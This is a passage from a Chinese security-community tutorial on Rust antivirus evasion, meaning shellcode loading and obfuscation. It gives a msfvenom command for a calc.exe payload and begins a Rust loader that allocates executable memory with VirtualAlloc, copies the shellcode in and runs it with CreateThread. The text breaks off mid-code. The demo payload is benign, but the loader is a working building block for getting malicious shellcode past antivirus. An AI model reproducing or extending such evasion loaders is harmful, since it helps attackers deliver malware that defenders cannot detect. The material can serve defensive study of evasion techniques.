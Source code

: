 

# Rust 免杀 - Shellcode 加载与混淆 - 先知社区

Rust 免杀 - Shellcode 加载与混淆



## 前言

这是半年前我学习 Rust 和免杀时的一些记录，最近打开知识库看到了这篇半年前的笔记，并且发现我常逛的安全社区都比较少有人分享 Rust 以及 Rust 免杀的帖子，于是想着将这篇笔记分享出来供大家参考和指正。由于我写这篇文章时也刚刚开始接触 Rust，所以文中所涉及的知识和代码都有可能出现错误，所以再次说明这篇文章仅供参考并希望大家指正。

## Shellcode 加载方式

本文的主要目的是分享 Rust 对 shellcode 的加密混淆方式，所以对于 shellcode 加载只介绍两种基本的方式，可能在后续的文章中会对加载方式进行更多分享。

### 调用 WinAPI

跟其他语言的 shellcode 加载器一样，要实现更多的 shellcode 加载方式，需要调用 WinAPI。  
执行 shellcode 的一般流程：

```bash
1. 创建或获取一段可读写执行的内存空间
2. 将 shellcode 移入这块内存空间
3. 利用各种方式将程序执行的流程指向这块内存空间
```

Rust 调用 WinAPI 需要先引入依赖，`Cargo`是 Rust 的一个包管理工具，要引入`winapi`依赖需要在`Cargo.toml`添加：

```bash
winapi = {version="0.3.9",features=["winuser","processthreadsapi","memoryapi","errhandlingapi","synchapi"]}
```

这里以加载 msf 生成的弹计算器的 shellcode 为例，先使用`msfvenom`生成一段 raw 格式的 shellcode，保存到`calc.bin`文件中，并复制到 Rust 的项目目录下。

```bash
msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o calc.bin
```

在 Rust 中，可以使用`include_bytes!`宏将静态文件在编译时包含进程序中。  
下面通过调用`VirtualAlloc`申请一段内存，并设置为`PAGE_EXECUTE_READWRITE`权限，具体参数建议查阅微软 WinAPI 文档。然后通过`std::ptr::copy`将 shellcode 移动到内存中，接着通过`CreateThread`创建线程，`WaitForSingleObject`等待线程结束。  
参考：[VirtualAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), [CreateThread function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread), [WaitForSingleObject function](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

```bash
use std::mem::transmute;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let ptr = VirtualAlloc(std::ptr::null_mut(), buffer.len(), 0x00001000, 0x40);

        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());

            let mut threadid = 0;
            let threadhandle = CreateThread(
                std::ptr::null_mut(),
```